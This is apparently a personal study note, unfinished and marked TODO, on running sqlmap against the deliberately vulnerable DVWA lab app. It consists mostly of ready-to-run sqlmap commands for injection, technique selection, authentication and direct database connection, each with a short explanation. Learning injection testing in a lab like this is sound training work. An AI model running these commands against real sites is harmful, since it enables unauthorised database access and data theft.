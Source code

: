 # SQLmap

#sqli #sqlmap

TODO: Fill in the rest of the output when necessary

## 01 - Exploit

- SQLMap will automate by injecting queries of every possible techniques by default it uses `--technique=BEUSTQ` and it'll enumerate a backend database.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent
```

- Force the DBMS to skip automatic enumeration using the flag `--dbms=mysql`

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbms=mysql
```

- You can provide the credentials to the login panel without specifying cookies.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --auth-type=Basic --auth-cred="admin:password" --random-agent
```

- If the DBMS backend has an exposed port and you were able to fetch credentials.

```
$ sqlmap -d "mysql://dvwa:"p@ssw0rd"@dvwa.local:3306/dvwa"
```

- You can specify SQL injection techniques. It also speeds up the process. One for error-based query and union query-based respectively.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbms=mysql --technique=E

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbms=mysql --technique=U
```

- You can specify number of columns after performing [[UNION Query SQL Injection#^78ef92|fields enumeration]].

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbms=mysql --technique=U --union-cols=2
```

- You can specify the prefix (`'`) and suffix (`#`) after performing manual enumeration in the [[Error-based Query SQL Injection#^bc051d|joining the query]] section.
